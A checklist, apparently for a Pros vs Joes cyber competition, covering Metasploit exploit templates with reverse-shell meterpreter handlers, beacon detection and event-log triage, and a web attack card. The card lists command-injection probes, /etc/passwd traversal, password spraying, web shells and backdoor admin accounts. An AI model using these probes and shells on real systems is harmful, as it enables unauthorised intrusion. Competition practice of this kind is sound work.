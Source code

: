 # PvJ gameday workflows checklist

## Environment and configuration

- **.env present:** Ensure a `.env` file exists at repo root with keys: `AGGREGATE_RANGE`, `TEAM_NAME`, `TEAM_RANGE`, `ATTACK_RANGES`, `LHOST`, `LPORT`, `SCOREBOT_URL`, `DNS_SERVER`, `RHOSTS`, `RPORT`.
    
- **Source variables:** Load before sessions.
    
    - `set -a; . ./.env; set +a`
        
- **Target switching:** Use `set_target.sh` to set team and targets.
    
    - `./set_target.sh <TeamName> [RHOSTS] [RPORT]`
        
- **Attack ranges auto-set:** Confirm `ATTACK_RANGES` updates to all other teams when switching.
    
- **Sed delimiter fix:** Verify `set_target.sh` uses `|` in `sed` substitutions to avoid CIDR `/` issues.
    
- **Status check:** Optionally add a `status` subcommand to print current `.env` values for quick verification.
    

## Exploit launcher library (Metasploit)

- **RC templates:** Store `.rc` files (Samba, Tomcat, Shellshock, ProFTPD, Usermap) with placeholders for `RHOSTS`, `LHOST`, `LPORT`.
    
- **Payload names:** Use symbolic payload names in Metasploit (`linux/x86/meterpreter/reverse_tcp`, etc.), do not set payload to a file path.
    
- **Run modules:** Launch with:
    
    - `msfconsole -r exploit_samba.rc`
        
- **Sessions management:** After run:
    
    - `sessions -l` then `sessions -i <ID>`
        
- **Optional msfvenom artifacts:** Generate only if needed and serve separately (HTTP/SCP), with a matching handler:
    
    - `use exploit/multi/handler`
        
    - `set PAYLOAD <payload>`
        
    - `set LHOST $LHOST; set LPORT $LPORT; exploit`
        
- **Null byte check:** If seeing “path name contains null byte,” inspect any script-provided paths with `repr`/`xxd` and strip `\x00` from variables before use.
    

## Beacon detection and pcaps

- **pcap_beacons.sh role:** Front-end triage using `tshark` to extract candidate beacon flows (IPs/URIs/counts).
    
- **beacon_detect.py role:** Logic/correlation engine that matches candidates to canary patterns and your `registry.csv`, outputs structured results.
    
- **beacon_detect.sh fix:** Remove missing deps or add a minimal `safe()` function; avoid sourcing non-existent `./libs/helpers.sh`.
    
    - Minimal standalone:
        
        - `tshark -r "$PCAP" -T fields -e ip.dst | sort | uniq -c | sort -nr | head`
            
- **Chained usage:** Preferred pipeline for structured correlation.
    
    - `./pcap_beacons.sh capture.pcap | python3 beacon_detect.py --registry registry.csv`
        
- **Live capture:** On remote, capture then pull back.
    
    - `ssh user@remote 'sudo tcpdump -i eth0 -w /tmp/capture.pcap'`
        
    - `scp user@remote:/tmp/capture.pcap .`
        
- **Remote execution:** If running on remote, ensure dependencies exist or copy scripts over.
    
    - `scp pcap_beacons.sh user@remote:/tmp/; ssh user@remote 'chmod +x /tmp/pcap_beacons.sh && /tmp/pcap_beacons.sh /tmp/capture.pcap'`
        

## DeepBlueCLI on Kali

- **Install prerequisites:** `sudo apt update && sudo apt install -y git powershell`
    
- **Clone and test:** `git clone https://github.com/sans-blue-team/DeepBlueCLI.git && cd DeepBlueCLI && pwsh ./DeepBlue.ps1 -h`
    
- **Analyze evtx:** Export from Windows with `wevtutil epl` and process on Kali.
    
    - `pwsh ./DeepBlue.ps1 ./Security.evtx > deepblue_output.txt`
        
- **Key event IDs:** Focus on 4624/4625 (logons), 4672 (privs), 4720/4722/4723/4724 (accounts), 4728/4732/4756 (groups), 4688 (process), 4697/7045 (service), 4103/4104 (PowerShell).
    
- **Action from findings:** Block offending IPs, disable suspicious accounts, hunt persistence, correlate with beacon registry.
    

## Web app attack workflow (ops card essentials)

- **Recon:** `nmap -sV -p- TARGET`; `whatweb TARGET`; `ffuf -u http://TARGET/FUZZ -w wordlist.txt`; `paramspider TARGET`.
    
- **Auth/session:** `hydra` for form spraying; inspect cookies (`HttpOnly`, `Secure`, `SameSite`); attempt session fixation/replay.
    
- **Injection:** `sqlmap` for SQLi; manual command injection probes (`;id`, `&& whoami`); XSS tests or `dalfox`; template injection (`{{7*7}}`, `${7*7}`).
    
- **Files/objects:** Upload tests (`.php/.jsp/.jpg.php`); traversal (`../../etc/passwd`); deserialization/JWT tampering.
    
- **Access/logic:** IDOR (increment/decrement IDs); unauthorized `/admin`; business logic abuses (skip steps, negative prices).
    
- **Exploit/persist:** Drop web shell or reverse shell; pivot internally; create backdoor admin; tamper plugins/themes.
    
- **Cleanup/report:** Remove artifacts; log vuln, PoC, impact, remediation in registry and handoffs.
    

## Operational hygiene and quick pivots

- **Registry discipline:** Every token drop or detection gets a UUID entry in `registry.csv` with timestamp, host, user, and context.
    
- **Logging:** Centralize tool output in `./logs` with clear filenames (`YYYYMMDD_tool_target.log`).
    
- **Network pivots:** Record and export `ROUTE_SUBNET` when adding routes through sessions.
    
- **DNS/scoring:** Keep `DNS_SERVER` and `SCOREBOT_URL` current; verify resolver reachability before scans and payload callbacks.
    
- **Status snapshot:** Before major actions, print current config:
    
    - `grep -E '^(TEAM_|ATTACK_RANGES|LHOST|LPORT|RHOSTS|RPORT|DNS_SERVER|SCOREBOT_URL)=' .env`